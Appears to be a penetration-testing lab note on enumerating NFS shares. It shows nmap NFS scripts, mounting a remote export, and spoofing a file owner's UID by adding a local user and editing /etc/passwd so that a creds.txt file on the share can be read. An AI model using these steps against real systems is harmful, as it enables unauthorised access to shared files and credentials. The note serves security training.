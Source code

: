 ```yaml
---
description: >-
  Enumerate NFS Service.
title: NFS (tcp-111)                  # Add title here
date: 2023-02-17 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, NFS (tcp-111)]                     # Change Templates to Writeup
tags: [nfs enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### NMAP
Scan port and info on NFS
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.181.201
...
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836540.0  6877088.0  22%   16.0T        32000
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
MAC Address: 02:8E:3F:CE:25:87 (Unknown)
```
Additional info on nfs scripts
```bash
ls -1 /usr/share/nmap/scripts/nfs*
```

#### Mount a file System
Create a directory and mount it:
```bash
mkdir home

sudo mount -o nolock 10.11.1.72:/home ~/home/

kali@kali:~$ cd home/ && ls
jenny  joe45  john  marcus  ryuu
```

#### Permissions on Mounted NFS
If you lack of permissions then it is possible to create a new user if owner has a UUID of 1014, and also _read (r)_, _write (w)_, and _execute (x)_ permissions on it. What can we do with this information? Since we have complete access to our Kali machine, we can try to add a local user to it using the adduser command, change its UUID to 1014, su to that user, and then try accessing the file again:

```bash 
kali@kali:~/home/stefan$ sudo adduser pwn
Adding user 'pwn' ...
Adding new group 'pwn' (1001) ...
Adding new user 'pwn' (1001) with group 'pwn' ...
Creating home directory '/home/pwn' ...
Copying files from '/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
Is the information correct? [Y/n]
```

Based on the output above, we can see that the new user has a UUID of 1001, which is not really what we need. We can change it to 1014 using sed and confirm the change took place. The -i option is used to replace the file in-place and the -e option executes a script. In this case, that happens to be 's/1001/1014/g', which will globally replace the UUID in the /etc/passwd file:

```bash
sudo sed -i -e 's/1001/1014/g' /etc/passwd

cat /etc/passwd | grep pwn
pwn:x:1014:1014:,,,:/home/pwn:/bin/bash
```

We will use the su command to change the current login session's owner. Then, we will use id to display our current user ID. Finally, we will try to access the file again:

```bash
kali@kali:~/home/marcus$ su pwn

pwn@kali:/root/home/marcus$ id
uid=1014(pwn) gid=1014 groups=1014

pwn@kali:/root/home/marcus$ cat creds.txt
Not what you are looking for, try harder!!! :O)
```

